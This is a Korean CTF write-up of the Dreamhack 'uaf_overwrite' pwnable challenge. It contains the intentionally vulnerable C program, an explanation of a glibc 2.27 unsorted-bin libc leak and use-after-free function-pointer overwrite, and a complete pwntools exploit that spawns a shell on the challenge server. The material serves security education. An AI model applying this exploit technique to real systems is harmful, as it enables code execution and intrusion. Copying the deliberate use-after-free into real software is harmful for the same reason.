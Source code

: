 ```yaml
---
title: "System Hacking Wargame - Dreamhack: uaf_overwrite"
categories: [Wargame, pwnable]
tags: [pwnable, uaf, wargame, allocator] # TAG names should always be lowercase
---
```


> `GLIBC2.27`기준으로 작성되었다.

[uaf_overwrite](https://dreamhack.io/wargame/challenges/357)



## 문제의 코드

```c
// Name: uaf_overwrite.c
// Compile: gcc -o uaf_overwrite uaf_overwrite.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct Human {
  char name[16];
  int weight;
  long age;
};

struct Robot {
  char name[16];
  int weight;
  void (*fptr)();
};

struct Human *human;
struct Robot *robot;
char *custom[10];
int c_idx;

void print_name() { printf("Name: %s\n", robot->name); }

void menu() {
  printf("1. Human\n");
  printf("2. Robot\n");
  printf("3. Custom\n");
  printf("> ");
}

void human_func() {
  int sel;
  human = (struct Human *)malloc(sizeof(struct Human));

  strcpy(human->name, "Human");
  printf("Human Weight: ");
  scanf("%d", &human->weight);

  printf("Human Age: ");
  scanf("%ld", &human->age);

  free(human);
}

void robot_func() {
  int sel;
  robot = (struct Robot *)malloc(sizeof(struct Robot));

  strcpy(robot->name, "Robot");
  printf("Robot Weight: ");
  scanf("%d", &robot->weight);

  if (robot->fptr)
    robot->fptr();
  else
    robot->fptr = print_name;

  robot->fptr(robot);

  free(robot);
}

int custom_func() {
  unsigned int size;
  unsigned int idx;
  if (c_idx > 9) {
    printf("Custom FULL!!\n");
    return 0;
  }

  printf("Size: ");
  scanf("%d", &size);

  if (size >= 0x100) {
    custom[c_idx] = malloc(size);
    printf("Data: ");
    read(0, custom[c_idx], size - 1);

    printf("Data: %s\n", custom[c_idx]);

    printf("Free idx: ");
    scanf("%d", &idx);

    if (idx < 10 && custom[idx]) {
      free(custom[idx]);
      custom[idx] = NULL;
    }
  }

  c_idx++;
}

int main() {
  int idx;
  char *ptr;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  while (1) {
    menu();
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        human_func();
        break;
      case 2:
        robot_func();
        break;
      case 3:
        custom_func();
        break;
    }
  }
}
```

## Check Point

### Code Vuln
- `sizeof(struct Human) == sizeof(struct Robot)` 이므로 서로 메모리 할당/해제 시 청크 재사용의 여지가 있다.

- `Robot::fptr`, `Human::age`가 메모리상 상대 위치가 같고, 크기도 같다. `robot_func`에 따르면 `fptr`에 뭔가 있으면 불러온다. 따라서 `Human::age`에 임의 함수 주소를 넣고, `Robot`객체를 만들면 임의 함수가 실행된다.

- `custom_func`에서 임의 크기만큼의 청크를 할당 및 해제하고 해당 객체에 데이터를 쓰고 출력할 수 있다. 이는 libc_base leak으로 이어질 여지가 있다.

### ptmalloc2 :: unsortedbin-libc

#### Feature of unsorted bin
unsorted bin에 처음 연결되는 청크는 libc 영역의 특정 주소와 Circular Doubly Linked List 를 형성한다.

unsorted bin에 속하는 청크는 Top Chunk와 병합 대상이므로 둘이 맞닿아 있으면 병합된다.

#### How to Connect to unsorted bin
0x410 이하 크기의 청크는 tcache에 먼저 삽입된다. 따라서 이보다 큰 청크를 해제하면 unsorted bin에 연결된다.

## Write-up
위 성질들을 이용해서 시나리오를 짜보자

1. leak libc_base

  - custom 함수를 통해 unsorted bin에 청크를 연결시키고 이를 다시 재할당하는 과정에서 하위 8비트가 오염된 fd영역을 출력할 수 있다.

  - 이 임의 주소와 libc_base 까지의 offset(정적 분석으로 gdb에서 사전조사)을 빼면 libc_base가 유출된다.

2. age로 one_gadget주소를 갖는 Human 객체를 생성, 할당, 해제한다.

3. 이후 생성되는 Robot 객체는 Human객체에 사용된 청크를 재사용 하므로 fptr에 one_gadget이 입력되어있다.

4. one_gadget이 실행된다.

### Exploit Code
```python
from pwn import *


#p = process("./uaf_overwrite")
p = remote("host3.dreamhack.games", 14086)
e = ELF("./uaf_overwrite")
libc = ELF("./libc-2.27.so")

def slog(name, addr): return success(": ".join([name, hex(addr)]))

def human(weight:int, age:int):
    p.sendlineafter(b">", b'1')
    p.sendlineafter(b": ", str(weight).encode())
    p.sendlineafter(b": ", str(age).encode())


def robot(weight:int):
    p.sendlineafter(b">", b'2')
    p.sendlineafter(b": ", str(weight).encode())

def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())


custom(0x500, b'AAAA', -1)
custom(0x500, b'AAAA', -1)
custom(0x500, b'AAAA', 0)
custom(0x500, b'B', -1)

lb = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebc42
og = lb + 0x10a41c


slog("libc_base", lb)
slog("one_gadget", og)

human(1, og)
robot(1)

p.interactive()
```

